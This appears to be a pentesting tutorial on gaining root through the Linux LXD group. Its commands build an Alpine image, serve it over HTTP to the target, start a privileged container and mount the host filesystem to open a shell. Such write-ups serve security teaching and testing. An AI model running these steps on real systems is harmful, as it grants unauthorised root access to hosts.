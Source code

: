 # Exploiting the LXC/LXD Groups
> Container / Instance : OS-level virtualization

> Virtual Machine : Hardwware-level virtualization (via Hypervisor)
> > * *Hosted hypervisor: Vmware, virtualbox, Parallels*
> > * *Native hypervisor: run directly on hardware*

## LXD - LXC ?
* **LXC - Linux Container**: A lightweight virtualization technology, which creates an environment as close as possible to a Linux installation but without the need for a separate kernel.
* **LXD - Linux Daemon**: The lightervisor, or lightweight container hypervisor. LXD is building on top of a container technology called LXC which was used by Docker before. LXD is an extension that is mainly used for directing the LXC.

*Communication between LXD and LXC is done by using inbuilt libraries, one such library is **`liblxc`**.*


A member of the local **`LXD`** group can instantly escalate the privileges to **`root`**. This is irrespective of whether that user has been granted **`sudo`** rights and **`does not`** require them to enter their password. The vulnerability exists even with the LXD snap package.

LXD is a **`root process`** that carries out actions for anyone with write access to the LXD UNIX socket. It often **does not attempt to match** the privileges of the calling user.

## Identifying the Vulnerability
Need to check if current user belongs to group **lxd** or not? There are multiple methods to check:
```console
kali@kali:~$ id
kali@kali:~$ grep mrrobot /etc/group
```
Or you can use an automated enumeration tools such as [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

When the current user is a member of the **LXD** group, meaning he has access to create system containers **as root**.

## Exploitation

The easiest way to exploit this misconfiguration is to build an image of **Alpine** (a lightweight Linux distribution), and start it using the **`security.privileged=true`** flag. This option will force the container to interact as **root** with the host filesystem and therefore allowing to read/write/execute root-level files.

1. On the attacker machine
   
    * Download build-alpine through git repository
    * Build the lastest Alpine image (this step must be executed by the root user)
    * Transfer the tar file to the host machine (can use python server with **`python3 -m http.server`**)
  
2. On the target machine

    * Download the alpine image
    * Import image for lxd
    * Initialize the image inside a new container
    * Mount the container inside the /root directory

### Method 1
Build an Alpine image and start it using the flag **`security.privileged=true`**, forcing the container to interact as root with the host filesystem.

#### Step 1: On local machine
```console
# build a simple alpine image
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder
sudo ./build-alpine 
```
```
❗if the error appears: 

 tar: Ignoring unknown extended header keyword 'APK_TOOLS.checksum.SHA1'
 .....

-> Editting the rootfs/usr/share/alpine-mirrors/MIRRORS.txt file and remove all of the mirrors apart from the first one.
```
Transferring the image in **.tar.gz** format to the target host.
```console
#on local
python3 -m http.server

#on target
wget http://192.168.56.43/alpine-vX.XX.tar.gz
```
#### Step 2: On target machine

❗LXC is **not** in the default bin so lets find out where we need to specify execution from
```console
find / -name lxc
...
/snap/bin/lxc
...
```
Import the image. It’s important doing this from YOUR HOME directory on the victim machine, or it might fail.
```console
/snap/bin/lxc image import ./alpine*.tar.gz --alias root_image

/snap/bin/lxc image list
```
As suggested by LXC, before actually using the image it should be initialized and its **storage pool** should be configured. The default selections will work just fine:
```console
/snap/bin/lxd init 

#or

/snap/bin/lxc storage create pool dir

/snap/bin/lxc profile device add default root disk path=/ pool=pool

/snap/bin/lxc storage list
```
Running image with the **`security.privileged`** flag set to true, which will grant the current user unconditioned root access to it:
```console
/snap/bin/lxc init root_image root_container -c security.privileged=true
```
Mounting the **`/root`** folder into the container (under /mnt/root)
```console
/snap/bin/lxc config device add root_container root_host disk source=/ path=/mnt/root recursive=true 
```
Interacting with the container
```console
/snap/bin/lxc start root_container
/snap/bin/lxc exec root_container /bin/sh
```
Once inside the container, navigate to **`/mnt/root`** to see all resources from the host machine.
```console
cd /mnt/root
#Here is where the filesystem is mounted
```

After running the bash file, we have a different shell, it is the shell of the container. This container has all the files of the host machine.

### Method 2

#### Step 1: On the local machine

Installing this distro builder [https://github.com/lxc/distrobuilder](https://github.com/lxc/distrobuilder)
```console
sudo su

# install requirements
sudo apt update
sudo apt install -y git golang-go debootstrap rsync gpg squashfs-tools

# Clone repo
git clone https://github.com/lxc/distrobuilder
```
Running **`make`** to compile the source code. This will generate the executable program `distrobuilder`, and it will be located at *$HOME/go/bin/distrobuilder*.
```console
cd distrobuilder
make
```
Creating a container image
```console
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
```

Running **`distrobuilder`** to create the container image
```console
sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.8
```
After that, we will get 2 files. The `lxd.tar.xz` file is the description of the container image. The `rootfs.squasfs` file is the root filesystem (rootfs) of the container image. The set of these two files is the *`container image`*.

Now, we have to transfer both these files to the target file.

#### Step 2: On the target machine
Add the container image
```console
/snap/bin/lxc image import lxd.tar.xz rootfs.squashfs --alias root_image
/snap/bin/lxc image list
```
Create a container
```console
/snap/bin/lxc init root_image root_container -c security.privileged=true --alias=root_image
/snap/bin/lxc lxc list
```
Mounting the /root folder into the container (under /mnt/root)
```console
/snap/bin/lxc config device add root_container root_host disk source=/ path=/mnt/root recursive=true
```
*❗If appears this Error: No storage pool found. Please create a new storage pool*

Execute the container:
```console
/snap/bin/lxc start root_container
/snap/bin/lxc exec root_container /bin/sh
cd /mnt/root
```
